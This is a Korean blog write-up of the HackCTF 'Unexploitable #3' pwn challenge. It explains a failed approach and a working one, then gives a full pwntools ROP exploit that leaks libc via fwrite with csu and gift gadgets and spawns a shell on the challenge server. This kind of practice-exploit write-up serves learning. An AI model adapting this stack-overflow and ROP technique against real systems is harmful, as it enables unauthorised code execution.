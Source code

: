 ```yaml
---
layout: post
title:  "HacCTF Unexploitable #3 write-up"
date:   2020-03-21 19:45:55
image:  hackctf_unex3.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled.png)

NX비트말곤 딱히 걸려있는게 없다.

<br>
**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%201.png)

Unexploitable 의 3번째 문제로서 동일한게 한번 입력을 받고 종료된다.

<br>
**3) 코드흐름 파악**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%202.png)

메인을 보면, fwrite와 fgets 가 끝이다. fwrite를 이용하여 libc leak을 하면 될 것이다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%203.png)

또한 gift 라는 함수가 있는데 fwrite함수가 있다. 어셈블리로보면

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%204.png)

요렇게 되어있다. 어떻게 사용하면 될지 일단 차차 생각해보자.

<br><br>

### 2. 접근방법

---

fgets로 충분히 리턴주소를 덮을수 있다. 그렇다면 fwrite를 이용해 leak을 일으킬라면 4개의 인자를 처리할 수 있는 가젯이 필요하다. 하지만 역시 그런 이쁜 가젯은 현재 존재하지 않는다.

현재 csu_ini 함수가 존재하는데, 이를 이용한다고 쳐도 3개의 인자만 처리가능 할 뿐, 나머지 하나인 rdx 관련 인자를 처리불가능하다. 그럼 혹시 아까 gift 함수를 괜히 준게 아닐꺼 같다는 생각이든다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%204.png)

0x400658 주소를 보면 mov rcx, [rdi] 가 있다. 이부분을 이용하여 rcx를 이용하면 될 것이다.

현재 가젯에 pop rdi; ret; 는 존재하기 때문에 먼저 rdi에 원하는 값을 넣고, gitf 함수의 가젯을 이용하면 rcx에 아까 넣어둔 rdi 값이 들어갈 것이다.

<br>

- **첫번째 시나리오**
    1. pop rbp; ret; 를 이용해서 .bss 영역에 /bin/sh 저장하기
    2. libc 주소 leak을 해야함 => fwrite() 함수이용할것임
    2.1 RTC 를 이용해서 rdi, rsi, rdx 레지스터에 3개 인자를 넣고
    2.2 마지막 RTC의 ret를 pop rdi;ret로 다시 가게함 => 여기서 rdi에 rcx에 넣을 값 다시 저장
    2.3 gift함수의 mov rcx, [rdi];ret; 를 이용해서 rcx(stdout) 저장
    2.4 이를 이용하여 fgets 주소 leak하기
    3. leak된 주소를 이용하여 libc_base 주소를 구하고 ROP 진행

기존에 Unexploitable 2 에서 진행했던 방법대로 처음에 진행을 했었다. 하지만 어떤 이유인지 자꾸 에러가 발생하여서 디버깅을 통해 확인을 해보았다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20Unexploitable%203/Untitled%205.png)

pop rbp; ret; 를 이용하여 bss 영역에 "/bin/sh" 문자열을 잘 저장하였고 gift함수의 가젯을 이용하여 rcx에 stdout_got 주소를 잘 저장하였다. 따라서 총 4개의 인자를 처리할 수 있는 세팅이 완료됬고, csu의 " call [r12 + rbx*8] "이 진행되어 원래대로라면 fwrite함수가 호출되어 fgets의 주소가 leak되야 한다.

하지만 현재 rcx에 stdout_got가 들어가 있긴 하지만, "pop rbp;ret;" 가 진행되고 setvbuf, fwrite, 함수를 건너뛰고 바로 main+98로 다시 갔기 때문에 stdout이 한번도 사용되지 않아 got에 실 주소가 들어가있지 않고 위 사진처럼 0x400743주소가 들어가 있다.

<br>

따라서 " call [r12 + rbx*8] " 이 실행됬을 때 에러가 나는 것이다. 결국 다른 시나리오를 이용해야한다.

<br>

- **두번째 시나리오**
    1. 바로 libc 주소 leak하기
        - 첫번째 ROP를 진행할때는 이미 위에 setvbuf와 fwrite가 실행된 상태이므로 stdout_got에 실제 주소가 들어가 있음. 따라서 csu가젯과 gift 가젯을 이용하여 rcx에 stdout_got주소를 첫번째 시나리오와 동일하게 삽입하면 됨
        - 그런뒤 다시 main으로 ret하게 만듬
    2. fgets를 이용하여 bss영역에 /bin/sh 삽입
    3. pop rdi;ret 가젯을 이용하여 /bin/sh 문자열이 존재하는 bss 영역을 rdi에 저장하고 system함수 호출

두번째 시나리오대로 코드를 짜면 정상적으로 쉘이 떨어진다.

<br><br><br>

### 3. 풀이

---

최종익스코드는 다음과 같다
```python
from pwn import *
context.log_level="DEBUG"
p=remote("ctf.j0n9hyun.xyz",3034)
#p=process("./Unexploitable_3")
e=ELF("./Unexploitable_3")
#gdb.attach(p)

bss=0x601038

gadget_1=0x40073A # pop rbx,rbp,r12,r13,r14,r15,ret;
gadget_2=0x400720 # mov rdx,r13; mov rsi,r14; mov esi,r15d; call [r12+rbx*8]; add rbx,1; cmp rbx,rbp 
gadget_3=0x400658 # mov rcx,[rdi]; ret;
gadget_4=0x400743 # pop rdi; ret;

p.recvuntil("you!\n")

payload2 = "A"*0x18
payload2 += p64(gadget_4)
payload2 += p64(0x601050) # for rcx
payload2 += p64(gadget_3)
payload2 += p64(gadget_1)
payload2 += p64(0) # rbx
payload2 += p64(1) # rbp
payload2 += p64(e.got['fwrite']) # r12
payload2 += p64(6) # r13
payload2 += p64(1) # r14
payload2 += p64(e.got['fwrite']) # r15
payload2 += p64(gadget_2)
payload2 += p64(0)
payload2 += p64(0) #rbx
payload2 += p64(1) #rbp
payload2 += p64(0) #r12
payload2 += p64(0) #r13
payload2 += p64(0)  #r14
payload2 += p64(0) #r15
payload2 += p64(0x40065f)
pause()
p.sendline(payload2)

fwrite_addr=u64(p.recv(6)+"\x00\x00")
log.info(hex(fwrite_addr))
libc_base=fwrite_addr-0x06e6e0

payload3 = "A"*0x18
payload2 += p64(gadget_4)
payload2 += p64(0x601060) # for rcx
payload2 += p64(gadget_3)
payload3 += p64(gadget_1)
payload3 += p64(0) # rbx
payload3 += p64(1) # rbp
payload3 += p64(e.got['fgets']) # r12
payload3 += p64(libc_base+0x3c48e0) # r13
payload3 += p64(8) # r14
payload3 += p64(bss) # r15
payload3 += p64(gadget_2)
payload3 += p64(0)
payload3 += p64(0) #rbx
payload3 += p64(1) #rbp
payload3 += p64(0) #r12
payload3 += p64(0) #r13
payload3 += p64(0) #r14
payload3 += p64(0) #r15
payload3 += p64(gadget_4)
payload3 += p64(bss)
payload3 += p64(libc_base+0x045390)

p.recvuntil("you!\n")
p.sendline(payload3)
p.send("/bin/sh\x00")
p.interactive()
```
<br><br>

### 4. 몰랐던 개념

---

방법은 알았지만, stdout_got 때문에 삽질을 꽤 오래했다. stdout, stdin도 libc에 wrapping되어있는 함수인것을 이제 알았다. 따라서 해당 함수들도 plt와 got가 존재한다.